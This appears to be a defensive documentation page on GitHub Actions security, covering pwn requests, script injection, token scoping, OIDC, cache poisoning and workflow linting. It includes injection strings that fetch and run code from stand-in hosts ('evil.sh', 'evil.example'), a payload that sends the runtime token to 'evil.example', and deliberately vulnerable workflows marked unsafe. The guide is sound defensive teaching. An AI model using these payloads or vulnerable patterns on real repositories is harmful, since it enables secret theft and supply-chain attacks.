


# GitHub Actions security

## Why care?

A CI workflow is a program that runs on every pull request, often with write access to your repository, your cloud account and your package registry. Attackers have learned that it is easier to break the pipeline than the product:

- **Ultralytics (December 2024).** A workflow ran on `pull_request_target` and pasted a branch name into a shell script. The attacker opened a pull request from a branch whose name was a shell command. From there, the attack reached the GitHub Actions cache that the release build used. Four malicious versions of the `ultralytics` Python package (8.3.41, 8.3.42, 8.3.45, 8.3.46) went to PyPI with a cryptocurrency miner inside: the first two through the project's own release workflow, the last two with a PyPI API token that had not been revoked.
- **tj-actions/changed-files (March 2025, CVE-2025-30066).** Attackers stole a bot token of the action's maintainers through another compromised action, `reviewdog/action-setup` (CVE-2025-30154). On 14 March they moved **every** version tag of `tj-actions/changed-files` to a malicious commit. More than 23,000 repositories used the action. In each run, it dumped the runner's memory and printed the secrets into the build log, double base64-encoded. In public repositories, anyone could read those logs.

Neither attack needed a bug in the victim's own code. Both used ordinary workflow features in the way they are documented to work.

[CI pipelines](../delivery/ci-pipelines.md) introduced Actions, the `GITHUB_TOKEN`, `permissions:`, SHA pinning and the basic script-injection fix. This page assumes that and goes deeper. You will build a threat model for a workflow, see why some triggers are dangerous, split untrusted and privileged work, replace stored cloud keys with OIDC, and lint workflows for these mistakes before they are merged.

## The idea: untrusted input must never meet privilege

Every workflow security problem has the same shape. **Untrusted input** (data or code that an outsider controls) reaches a place that has **privilege** (a token, a secret, a writable cache, a machine you care about). The defence is to keep the two apart, or to make sure that input is treated only as data, never as code.

### Who controls the inputs?

| Input                                                 | Who controls it                                | Example of misuse                          |
| ----------------------------------------------------- | ---------------------------------------------- | ------------------------------------------ |
| Code in a pull request from a fork                    | Anyone with a GitHub account                   | `make test` runs their `Makefile`          |
| PR title, PR body, commit messages, review comments   | Anyone who can open a PR or comment            | Script injection through `${{ }}`          |
| Branch name (`github.head_ref`)                       | The PR author                                  | Branch named `a$(curl evil.sh\|sh)`        |
| Issue title and body, issue comments                  | Anyone, on a public repository                 | Script injection in a triage workflow      |
| Artifacts and caches written by an untrusted run      | Whoever controlled that run                    | A "coverage report" that is really a shell |
| Third-party actions and their dependencies            | The action's maintainers, or whoever owns them | A moved tag (tj-actions)                   |
| Tools the job downloads (`curl \| sh`, `pip install`) | Their publishers and the network path          | A compromised installer script             |

The PR author also controls every **file** in the checkout: test code, `Makefile`, `mise.toml`, `package.json` scripts, `go generate` directives. If a job runs any of them, it runs the PR author's code.

### What is at stake?

| Asset                                         | What an attacker can do with it                                                         |
| --------------------------------------------- | --------------------------------------------------------------------------------------- |
| `GITHUB_TOKEN`                                | Whatever `permissions:` allows: push code, create releases, approve PRs, write packages |
| Repository, organisation, environment secrets | Use them anywhere, until someone rotates them                                           |
| OIDC token (`id-token: write`)                | Exchange it for cloud credentials that the trust policy allows                          |
| Actions cache                                 | Plant files that a later, more privileged run restores (Ultralytics)                    |
| Artifacts                                     | Replace a build output that a later job or workflow deploys                             |
| Self-hosted runner                            | Keep a process running on it, read the next job's secrets, reach the internal network   |
| Logs                                          | Read secrets that masking missed; in public repositories, logs are public               |

The rest of this page is a list of the paths from the first table to the second, and how to close each one.

## Under the hood: triggers decide the trust level

The **trigger** (the event in `on:`) decides which code runs, with which token, and with which secrets. Three triggers matter most for pull requests.

| Trigger               | Workflow file comes from | Code checked out by default | Token for a fork PR | Secrets for a fork PR |
| --------------------- | ------------------------ | --------------------------- | ------------------- | --------------------- |
| `pull_request`        | The PR's merge commit    | The PR's merge commit       | Read-only           | None                  |
| `pull_request_target` | The **default branch**   | The **default branch**      | Can write           | **Yes**               |
| `workflow_run`        | The default branch       | The default branch          | Can write           | **Yes**               |

`pull_request` is the safe default. For a PR from a fork, GitHub gives the job a read-only `GITHUB_TOKEN` and passes no secrets (except the `GITHUB_TOKEN` itself). The PR author can change the workflow file in their PR, but the changed workflow still gets no privilege. An Actions setting can also require a maintainer to approve runs from first-time contributors.

`pull_request_target` was made for jobs that need privilege but should not need the PR's code: adding a label, posting a comment. It runs the workflow **from the default branch**, in the context of the base repository, with secrets. Since 8 December 2025, GitHub always takes the workflow source and checkout reference from the default branch, even if the PR targets another branch. Before that, an old, unfixed copy of a workflow on a release branch could still be attacked.

`workflow_run` starts a workflow when another workflow finishes. It also runs from the default branch, with secrets and a write token, even when the first workflow ran for a fork PR.

### The "pwn request"

A **pwn request** is a privileged workflow that checks out and runs the code of a pull request. The privilege comes from the trigger; the code comes from the attacker.

```yaml
# UNSAFE: do not copy. Runs fork code with secrets and a write token.
on: pull_request_target

jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
        with:
          ref: ${{ github.event.pull_request.head.sha }}
      - run: make test # the PR author wrote this Makefile
        env:
          NPM_TOKEN: ${{ secrets.NPM_TOKEN }}
```

The attacker does not need to touch `.github/workflows`. A changed `Makefile`, test file or build script is enough. Even without the `env:` line, the code can read the `GITHUB_TOKEN` from the checkout (see `persist-credentials` below) and write to the cache.

GitHub has closed this pattern from two sides in 2026:

- **`actions/checkout` v7** (generally available in June 2026, backported to the floating major tags of older versions) refuses the common pwn request forms by default. In `pull_request_target` workflows, and in `workflow_run` workflows started by a `pull_request*` event, it refuses to check out a fork PR's head or merge commit, `refs/pull/N/head`, `refs/pull/N/merge`, or the fork repository. The opt-out input is named `allow-unsafe-pr-checkout`, so it stands out in review. It does **not** stop `git fetch` or `gh pr checkout` in a `run:` step, and it does not cover `issue_comment`. Workflows pinned to an older SHA don't get the backport.
- **Public repositories** block `pull_request_target` by default from **2 December 2026**, unless an Actions event policy explicitly allows it for a named workflow file. Private and internal repositories are not affected.

These are guard rails, not a design. The design is to never run untrusted code in a privileged job.

### The safe split: build untrusted, act trusted

Most jobs that "need" `pull_request_target` want two things: run the PR's code (test, build, measure coverage) and then do something privileged with the result (post a comment, add a label). Split them into two workflows:



Workflow 1 runs the attacker's code, but with no secrets and a read-only token. Workflow 2 has privilege, but runs only code from the default branch and treats the artifact as **data**: it parses it, checks it, and never executes it.

```yaml
# .github/workflows/pr-report.yml: untrusted, no privilege
name: PR report

on:
  pull_request:

permissions: {}

jobs:
  report:
    runs-on: ubuntu-latest
    timeout-minutes: 15
    permissions:
      contents: read
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1 # v7.0.1
        with:
          persist-credentials: false
      - name: Build report
        env:
          PR_NUMBER: ${{ github.event.pull_request.number }}
        run: |
          mkdir -p out
          go test ./... -json > out/test.json || true
          printf '%s\n' "$PR_NUMBER" > out/pr-number
      - uses: actions/upload-artifact@cf430e030ddbb5b0abf93d22962f4752f3646cd9 # v7.0.2
        with:
          name: pr-report
          path: out/
          retention-days: 3
```

```yaml
# .github/workflows/pr-comment.yml: trusted, treats the artifact as data
name: PR comment

on:
  workflow_run:
    workflows: [PR report]
    types: [completed]

permissions: {}

jobs:
  comment:
    if: github.event.workflow_run.event == 'pull_request'
    runs-on: ubuntu-latest
    timeout-minutes: 5
    permissions:
      actions: read # download the other run's artifact
      pull-requests: write # post the comment
    steps:
      - uses: actions/download-artifact@9000827ccba6bdab643e8b6fd33ac0654aef8333 # v8.0.2
        with:
          name: pr-report
          path: ${{ runner.temp }}/pr-report
          run-id: ${{ github.event.workflow_run.id }}
          github-token: ${{ github.token }}
      - name: Validate and comment
        env:
          GH_TOKEN: ${{ github.token }}
          GH_REPO: ${{ github.repository }}
          REPORT_DIR: ${{ runner.temp }}/pr-report
        run: |
          pr=$(head -c 10 "$REPORT_DIR/pr-number")
          case "$pr" in
            '' | *[!0-9]*) echo "invalid PR number" >&2; exit 1 ;;
          esac
          failed=$(jq -s '[.[] | select(.Action == "fail" and .Test != null)] | length' "$REPORT_DIR/test.json")
          gh pr comment "$pr" --body "Failed tests: $failed"
```

Details that matter:

- There is **no checkout** in workflow 2. Nothing from the PR is on disk except the artifact.
- The artifact goes to `$RUNNER_TEMP`, not the workspace, so it cannot overwrite a script that a later step would run.
- The PR number comes from the artifact, so the attacker controls it. The `case` check accepts digits only. `jq` reads the JSON as data. The comment text is built from a number that `jq` computed, not from strings in the file.
- `github.event.workflow_run.pull_requests` is empty for fork PRs, so carrying the number in the artifact is the usual approach. Treat it as a claim, not a fact: in the worst case the attacker makes you comment on another PR.

## Under the hood: script injection, deeper

CI pipelines showed the basic case and the fix: `${{ }}` is replaced **before** the shell runs, so untrusted text becomes code; pass it through `env:` instead. Three more facts make the problem bigger than it looks.

**1. Many fields are attacker-controlled, not only titles.** Treat every one of these as untrusted: `github.head_ref`, `github.event.pull_request.title`, `.body`, `.head.ref`, `.head.label`, `.head.repo.default_branch`, `github.event.issue.title` and `.body`, `github.event.comment.body`, `github.event.review.body`, `github.event.commits[*].message` and `.author.name`, `github.event.head_commit.message`, `github.event.pages[*].page_name`, and the inputs of `workflow_dispatch` if many people may start it. Git branch names cannot contain spaces, but they can contain `$`, `(`, `)`, `` ` ``, `;` and `{`, `}`. That is enough for `$(curl${IFS}-sSfL${IFS}evil.example|sh)`.

**2. Injection is not limited to `run:`.** Any input that an action evaluates as code is a target. The best-known one is `actions/github-script`, whose `script:` input is JavaScript:

```yaml
# UNSAFE: do not copy. The PR body becomes JavaScript source code.
- uses: actions/github-script@v7
  with:
    script: |
      console.log("${{ github.event.pull_request.body }}")
```

A body of `"); await exec.exec("curl", ["-d", process.env.ACTIONS_RUNTIME_TOKEN, "https://evil.example"]); ("` ends the string and runs code with the step's token. The fix is the same idea as for the shell: pass the value through the environment and read it as a variable.

```yaml
- uses: actions/github-script@3a2844b7e9c422d3c10d287c895573f7108da1b3 # v9.0.0
  env:
    PR_BODY: ${{ github.event.pull_request.body }}
  with:
    script: |
      const body = process.env.PR_BODY ?? "";
      core.info(`PR body has ${body.length} characters`);
```

Better still, read the value from the event object that `github-script` already has (`context.payload.pull_request.body`). No `${{ }}` at all means nothing to inject.

**3. `$GITHUB_ENV` and `$GITHUB_OUTPUT` are also code paths.** A line written to `$GITHUB_ENV` sets a variable for **all later steps**. If an attacker controls the value and it contains a newline, they can add their own lines, for example `LD_PRELOAD=...` or `BASH_ENV=...`, which later steps then load:

```yaml
# UNSAFE: do not copy. A newline in the title adds more variables.
- run: echo "TITLE=${{ github.event.issue.title }}" >> "$GITHUB_ENV"
```

If you must pass untrusted text to later steps, use the multi-line delimiter syntax with a random delimiter, or (simpler) re-read the value from `env:` in the step that needs it.

The fixed versions of the common shell cases:

```yaml
- name: Show issue
  env:
    ISSUE_TITLE: ${{ github.event.issue.title }}
    HEAD_REF: ${{ github.head_ref }}
  run: |
    printf 'Issue: %s\n' "$ISSUE_TITLE"
    printf 'Branch: %s\n' "$HEAD_REF"
```

Quote the variables. Use `printf '%s'` rather than `echo` for text you don't control, because some `echo` implementations interpret backslashes and leading `-e`.

## Under the hood: the `GITHUB_TOKEN`

### Start from nothing

CI pipelines put `contents: read` at the top of the workflow. A stricter and clearer pattern is `permissions: {}` at the top, so that every job starts with **no** scopes, and then a `permissions:` block on each job that lists exactly what it needs. A job-level block **replaces** the workflow-level one; it does not add to it.

```yaml
permissions: {}

jobs:
  test:
    permissions:
      contents: read
  release:
    permissions:
      contents: write # create the GitHub release
      id-token: write # OIDC for signing
```

Now a reviewer sees on each job what it can do, and a new job gets nothing by accident. Also set the repository or organisation default ("Workflow permissions") to read-only and turn off "Allow GitHub Actions to create and approve pull requests", so that workflows without a `permissions:` block are safe too. See [GitHub repositories](github-repositories.md) for these settings.

### `persist-credentials: false` and ArtiPACKED

By default, `actions/checkout` saves the token so that later `git fetch` and `git push` commands work without extra setup. Up to v5, it wrote the token into `.git/config` in the workspace. Since v6 it writes it to a separate file under `$RUNNER_TEMP` and refers to that file from the Git configuration. Either way, **every later step in the job can read the token**, including a test, a build script, or a third-party action that has nothing to do with Git.

In August 2024, Palo Alto Networks Unit 42 published **ArtiPACKED**. They found public repositories, including projects of Red Hat, Google, AWS, Canonical, Microsoft and OWASP, whose workflows uploaded the whole checkout directory as an artifact. The artifact contained `.git/config`, and in it a valid `GITHUB_TOKEN`. Because artifacts can be downloaded while the run is still going, an attacker could fetch the artifact and use the token before the job ended. Some artifacts also contained the `ACTIONS_RUNTIME_TOKEN`, which the cache and artifact actions use and which lives for about six hours.

Since then, `actions/upload-artifact` skips hidden files and directories by default (`include-hidden-files: false`), which removes `.git/`. That fixes the upload. It does not fix the steps that can still read the token. So:

```yaml
- uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1 # v7.0.1
  with:
    persist-credentials: false
```

Write it on every checkout. A job that really needs to push (a release bot, a docs deploy) should pass the token only to that one step, for example as `GH_TOKEN` in the `env:` of the step that runs `git push`.

## Under the hood: secrets and environments

### What masking does not do

GitHub replaces the value of each registered secret with `***` in logs. That is a convenience, not a control:

- It matches the **exact** string. A secret that is base64-encoded, URL-encoded, reversed, or split across two lines is printed in clear. The tj-actions payload printed secrets double base64-encoded for exactly this reason.
- A JSON or YAML blob stored as one secret is masked as one string. If a tool prints one field of it, that field is not masked. Store one value per secret.
- Values derived from a secret (a signed JWT, a session token from a login) are not secrets until you register them with `::add-mask::`.
- Masking does nothing against a step that sends the secret over the network.

The real control is that the secret is not in the job at all.

### Secrets and forks

Workflows started by `pull_request` from a fork get no secrets. Workflows started by Dependabot get only **Dependabot secrets**, a separate store. That is why fork PRs and Dependabot PRs can't run your deploy, and why people are tempted to switch to `pull_request_target`. Don't. Use the safe split above, or run the privileged step after merge.

### Environments: a gate in front of secrets

An **environment** (`environment: production` on a job) is a named deployment target with its own secrets and protection rules. Environment secrets are only available to jobs that name the environment, and **only after** all protection rules pass:

- **Required reviewers:** up to six users or teams; one approval is enough. Turn on "Prevent self-review" so the person who pushed cannot approve their own deploy.
- **Wait timer:** a delay of 1 to 43,200 minutes before the job starts.
- **Deployment branches and tags:** "No restriction", "Protected branches only", or "Selected branches and tags" with name patterns. For production, allow only `main` or a tag pattern like `v*` that a [tag ruleset](github-repositories.md) protects.
- **Allow administrators to bypass:** on by default. Turn it off for production.

Required reviewers and wait timers are available for public repositories on all plans; for private repositories they need GitHub Enterprise. Environment secrets for private repositories need Pro, Team or Enterprise.

Put each deploy credential in an environment, not in repository secrets. A job without `environment:` then simply cannot reach it, even if an attacker gets code into that job. The environment name also appears in the OIDC token, which is the next topic.

## Under the hood: OIDC instead of stored cloud keys

A stored cloud key (an AWS access key, a GCP service account JSON) is valid for months, works from any machine, and is exactly what tj-actions printed into logs. **OIDC** (OpenID Connect) replaces it with a short-lived, signed statement about the job. The cloud checks the statement and hands out credentials that expire in minutes. See [Secrets management](../security/secrets-management.md) for workload identity in general.



The job needs `id-token: write`. That permission does not let the job write anything to the repository; it only lets it ask for a token. GitHub's documentation shows this example token payload for a job in the `prod` environment:

```json
{
  "jti": "example-id",
  "sub": "repo:octo-org/octo-repo:environment:prod",
  "environment": "prod",
  "aud": "https://github.com/octo-org",
  "ref": "refs/heads/main",
  "sha": "example-sha",
  "repository": "octo-org/octo-repo",
  "repository_owner": "octo-org",
  "actor_id": "12",
  "repository_visibility": "private",
  "repository_id": "74",
  "repository_owner_id": "65",
  "run_id": "example-run-id",
  "run_number": "10",
  "run_attempt": "2",
  "runner_environment": "github-hosted",
  "actor": "octocat",
  "workflow": "example-workflow",
  "head_ref": "",
  "base_ref": "",
  "event_name": "workflow_dispatch",
  "ref_type": "branch",
  "job_workflow_ref": "octo-org/octo-automation/.github/workflows/oidc.yml@refs/heads/main",
  "iss": "https://token.actions.githubusercontent.com",
  "nbf": 1632492967,
  "exp": 1632493867,
  "iat": 1632493567
}
```

The claims you will use most:

| Claim              | Meaning                                                         | Use in a trust policy                                 |
| ------------------ | --------------------------------------------------------------- | ----------------------------------------------------- |
| `sub`              | Subject: repository plus environment, or ref, or `pull_request` | Main match. Pin to repo **and** environment           |
| `repository`       | `owner/name`                                                    | Already in `sub`; names can be reused after a rename  |
| `repository_id`    | Numeric ID, never reused                                        | Safer than the name                                   |
| `ref`              | Branch or tag that triggered the run                            | Only `refs/tags/v*` may publish, for example          |
| `environment`      | The job's environment, if any                                   | Only `production` may deploy                          |
| `job_workflow_ref` | The **reusable workflow** that runs the job, with its ref       | Only your central deploy workflow may assume the role |

The `sub` claim has a fixed format by default: `repo:OWNER/REPO:environment:NAME` when the job has an environment, otherwise `repo:OWNER/REPO:ref:refs/heads/BRANCH`, `...:ref:refs/tags/TAG`, or `repo:OWNER/REPO:pull_request`. For repositories created after 15 July 2026, the default `sub` also contains the numeric IDs: `repo:octo-org@123456/octo-repo@456789:ref:refs/heads/main`. Older repositories keep the old format unless an owner opts in. Check the real format of your repository before you write the policy.

An AWS role trust policy for the `production` environment of one repository:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "Federated": "arn:aws:iam::111122223333:oidc-provider/token.actions.githubusercontent.com"
      },
      "Action": "sts:AssumeRoleWithWebIdentity",
      "Condition": {
        "StringEquals": {
          "token.actions.githubusercontent.com:aud": "sts.amazonaws.com",
          "token.actions.githubusercontent.com:sub": "repo:acme/orders:environment:production"
        }
      }
    }
  ]
}
```

Two exact matches, no wildcards. A PR job, a job on another branch, or a job in another repository of the same organisation gets a different `sub` and is refused. Because the `sub` names the environment, the cloud now relies on the environment's protection rules (reviewers, branch policy) as well. The most common mistake is `StringLike` with `repo:acme/*` or `repo:acme/orders:*`: that lets any workflow in any branch, including a PR from a fork if the job has `id-token: write`, assume the role.

The job that uses it:

```yaml
deploy:
  runs-on: ubuntu-latest
  environment: production
  permissions:
    contents: read
    id-token: write
  steps:
    - uses: aws-actions/configure-aws-credentials@45666896f5d8e0f10ae255413f3a4cdd03bdc8f5 # v6.3.1
      with:
        role-to-assume: arn:aws:iam::111122223333:role/orders-deploy
        aws-region: eu-west-1
    - run: aws sts get-caller-identity
```

Package registries work the same way. PyPI, npm and crates.io support **trusted publishing**: the registry trusts an OIDC token from a named workflow and environment, so there is no long-lived upload token to steal. Ultralytics shows why you must also **delete** the old token once trusted publishing works: the last two malicious versions were uploaded with an API token that had not been revoked.

## Under the hood: third-party actions

### SHA pins, and what they don't cover

CI pipelines explained why `@v5` is a moving tag and how to pin a full commit SHA with `git ls-remote`, peeling annotated tags with `^{}`. Three limits remain:

- **Transitive actions.** A composite action can call other actions with `uses: some/action@v1`. Your SHA pin fixes the outer action's code, but its inner `uses:` is still a tag. This is exactly the tj-actions chain: `tj-actions/changed-files` used `tj-actions/eslint-changed-files`, which used `reviewdog/action-setup@v1`. When the `v1` tag of reviewdog was moved for about two hours on 11 March 2025, tj-actions' own CI ran it and leaked the token that the attackers used three days later.
- **Downloads at run time.** A Docker action that says `image: docker://ghcr.io/x/y:latest`, or a composite action that runs `curl .../install.sh | sh` or `pip install tool`, fetches new code on every run, whatever SHA you pinned.
- **Impostor commits.** Because of how GitHub stores forks, a commit that exists only in a **fork** can be addressed through the parent repository's name: `uses: actions/checkout@<sha-from-a-fork>` resolves. A pin is only as good as your check that the SHA is on a real tag of the real repository: compare it with `git ls-remote --tags`, or let the `zizmor` `impostor-commit` audit do it.

Read an action's `action.yml` before you adopt it. If it is a composite action, read every `uses:` and `run:` inside it.

### Keep the pins up to date

Pins without updates turn into old, vulnerable code. Let Dependabot propose updates for the `github-actions` ecosystem. It understands SHA pins and updates the version comment in the same PR:

```yaml
# .github/dependabot.yml
version: 2
updates:
  - package-ecosystem: github-actions
    directory: /
    schedule:
      interval: weekly
    cooldown:
      default-days: 7
    groups:
      actions:
        patterns: ["*"]
```

The `cooldown` waits seven days after a release before proposing it. Most malicious releases are found and removed within days, so you are rarely the first to run them. `groups` puts all action updates in one PR per week. The [Dependencies](dependencies.md) page covers update bots in depth.

### Organisation controls

- **Allowed actions policy.** In the organisation (or enterprise) Actions settings, allow only actions from GitHub, verified creators, and a named list. Since August 2025 the same policy can **require full-length SHA pins** (any workflow that uses a tag or branch then fails to start) and **block** named actions with a `!` prefix, which overrides any allow rule. A block entry is a fast response when an action is reported compromised.
- **Workflow dependency lockfiles.** Since 28 October 2026, generally available: a machine-written file `.github/workflows/actions.lock` records the commit for each action **and its transitive actions**, together with the owner and repository IDs. The runner runs the locked commit, rejects commits that only exist in a fork, and an admin policy can require a lockfile. It is maintained with the `gh actions-lock` CLI extension (`gh actions-lock --verify` as a CI check), and Dependabot updates it. It does not cover reusable workflow calls (pin those by SHA) and does not make a locked commit safe.
- **Immutable releases.** Since October 2025, a repository can make its releases immutable: the tag and assets of a published release can no longer be moved or changed, and GitHub adds a release attestation. If an action's maintainers turn it on, a `v1.2.3` release tag can't be moved. Floating major tags like `v1` are usually not releases and still move. Prefer SHA pins anyway; immutability is a property of someone else's settings.

## Under the hood: caches and artifacts

### Cache poisoning

The Actions cache is a key-value store shared by the runs of a repository. Its scope rules:

- A run can restore caches from its **own branch** and from the **default branch**. A PR run can also restore from its **base branch**.
- A PR's own caches are scoped to `refs/pull/N/merge`; the base branch and other PRs cannot restore them.
- An existing cache entry cannot be changed. A new key creates a new entry.
- Low-trust triggers can read the default branch's caches but cannot create or overwrite them there. Only trusted triggers such as `push`, `workflow_dispatch` and `schedule` can write to the default branch's scope.
- Entries not used for 7 days are removed. When the repository passes its size limit (10 GB by default), the least recently used entries are removed first.

So a fork PR running under `pull_request` cannot poison `main`'s cache. The risk comes from **privileged** workflows that run untrusted code: `pull_request_target`, `workflow_run`, `issue_comment`. They run in the default branch's scope, so they can write entries that the release workflow on `main` restores. And because cache entries are never overwritten, an attacker can also **fill** the cache to evict the real entry and then write their own under the expected key before the next real build does.

That is what happened at Ultralytics: the injected code in the `pull_request_target` workflow reached the cache that the release build later restored. Rules:

- Never run untrusted code in a workflow that can write to the default branch's cache.
- **Don't restore caches in release workflows.** A release is rare; a few extra minutes of build are cheap. `setup-go`, `setup-python` and `mise-action` cache by default: turn it off (`cache: false`) in release jobs.
- A cache restores **inputs** that the build then checks. Go verifies the module cache against `go.sum` when it downloads, but `go build` trusts what is already in the module and build caches. Run `go mod verify` if you must restore one in a sensitive job.

### Artifact poisoning

An artifact is a file that one job uploads and another job, or another workflow, downloads. In the safe split above, the attacker controls the artifact's content. **Artifact poisoning** is when the trusted side treats that content as code or as trusted configuration:

- Downloading into the workspace, where a file named `package.json`, `Makefile` or `.github/actions/x/action.yml` replaces the trusted one before a later step runs.
- Running a script that came in the artifact.
- Using a field from the artifact in `${{ }}` inside `run:` (script injection again), or in `$GITHUB_ENV`.
- Deploying a binary from an untrusted run. Only artifacts from a trusted run (`push` to `main`, a protected tag) may become a release.

Download to `$RUNNER_TEMP`, use a fixed artifact `name:`, validate every field, and parse with a real parser.

## Under the hood: runners

GitHub-hosted runners are fresh virtual machines, destroyed after one job. **Self-hosted runners** are machines you run. By default they are **persistent**: the same machine takes job after job. A job can leave a background process or change a tool on the machine, and the next job, maybe a release with production secrets, runs on it.

- **Never use self-hosted runners for public repositories.** GitHub's own guidance says this. Any fork PR (after approval of a first-time contributor, or from anyone who once had a PR accepted) can run code on your machine, inside your network.
- **Make them ephemeral.** Register runners with `--ephemeral` (or just-in-time configuration), so each takes one job and is then removed. **Actions Runner Controller (ARC)** does this on Kubernetes: one pod per job, built from a fixed image, scaled by runner scale sets.
- **Group and restrict.** Put runners in runner groups that only named repositories (and, for enterprises, named workflows) may use. Give a runner's cloud identity no more than one workflow needs.
- **Limit the network.** A runner inside the production network is a bridge for anyone who can run a job.

## Under the hood: reusable workflows

A **reusable workflow** is a workflow with `on: workflow_call` that other workflows call as a job:

```yaml
jobs:
  deploy:
    uses: acme/platform/.github/workflows/deploy.yml@0000000000000000000000000000000000000000 # v3.2.0
    permissions:
      contents: read
      id-token: write
    with:
      service: orders
    secrets:
      SLACK_WEBHOOK: ${{ secrets.SLACK_WEBHOOK }}
```

`acme/platform` is a made-up platform repository, so the all-zero SHA is a placeholder: put the real commit of your `v3.2.0` tag there. Pin reusable workflows like actions, because lockfiles don't cover reusable workflow calls.

For security, the important part is the OIDC claim `job_workflow_ref`. It names the reusable workflow that is running the job, for example `acme/platform/.github/workflows/deploy.yml@refs/tags/v3.2.0`. A cloud trust policy that matches `job_workflow_ref` says "only our central, reviewed deploy workflow may deploy", whatever repository calls it. The platform team then owns the deploy steps, and a service team can't replace them with `aws s3 rm --recursive` in its own YAML. To use it in AWS or GCP conditions, customise the `sub` claim to include `job_workflow_ref` (an organisation or repository setting), because some clouds only match a few standard claims.

Also: pass secrets by name, as above. `secrets: inherit` gives the called workflow **every** secret of the caller, which breaks least privilege. The caller's `permissions:` are the upper limit for the called workflow.

## Under the hood: tools that check workflows

| Tool                          | Kind                     | Finds                                                                                                                                                        |
| ----------------------------- | ------------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| `actionlint`                  | Static, syntax and types | Schema errors, wrong expressions, untrusted input in `run:` and `script:`, shellcheck issues                                                                 |
| `zizmor`                      | Static, security         | Dangerous triggers, injection, `artipacked`, unpinned and impostor `uses:`, cache poisoning, broad permissions, `secrets: inherit`, known-vulnerable actions |
| `step-security/harden-runner` | Runtime, on the runner   | Every outbound connection, per step; can block all but an allow-list; file and process events                                                                |
| OpenSSF Scorecard             | Repository-level checks  | Token permissions, pinned dependencies, dangerous workflows (see [GitHub repositories](github-repositories.md))                                              |

Static tools read YAML before it runs; harden-runner watches what the job really does. They catch different things: no static tool can know that a pinned action's installer will call a new domain next week. Harden-runner detected the tj-actions compromise because an unexpected endpoint appeared in the jobs' network traffic: the payload downloaded its memory-dump script from `gist.githubusercontent.com`. Its free tier covers public repositories on GitHub-hosted runners; private repositories and self-hosted runners need the paid tier (without it, the step is a no-op on self-hosted runners).

## Try it

### `actionlint` on this repository

This repository pins `actionlint` in `mise.toml`. In the repository root:

```console
$ mise exec -- actionlint --version
1.7.12
installed by downloading from release page
built with go1.26.1 compiler for linux/amd64
$ mise exec -- actionlint .github/workflows/*.yml
$ echo $?
0
```

Clean. Now a workflow with many of this page's mistakes. Save it in a scratch Git repository (`actionlint` looks for `.github/workflows` in the current repository):

```sh
d=$(mktemp -d "$TMPDIR/wfsec.XXXXXX") && cd "$d" && git init -q . && mkdir -p .github/workflows
```

```yaml
# UNSAFE: do not copy. .github/workflows/triage.yml with deliberate mistakes.
name: Triage

on:
  pull_request_target:
  issues:
    types: [opened]

permissions: write-all

jobs:
  label:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
        with:
          ref: ${{ github.event.pull_request.head.sha }}
      - name: Show issue
        run: echo "New issue ${{ github.event.issue.title }}"
      - name: Show branch
        run: echo "Branch ${{ github.head_ref }}"
      - uses: actions/github-script@v7
        with:
          script: |
            console.log("${{ github.event.pull_request.body }}")
      - run: make test
```

```console
$ actionlint .github/workflows/triage.yml
.github/workflows/triage.yml:18:34: "github.event.issue.title" is potentially untrusted. avoid using it directly in inline scripts. instead, pass it through an environment variable. see https://docs.github.com/en/actions/reference/security/secure-use#good-practices-for-mitigating-script-injection-attacks for more details [expression]
   |
18 |         run: echo "New issue ${{ github.event.issue.title }}"
   |                                  ^~~~~~~~~~~~~~~~~~~~~~~~
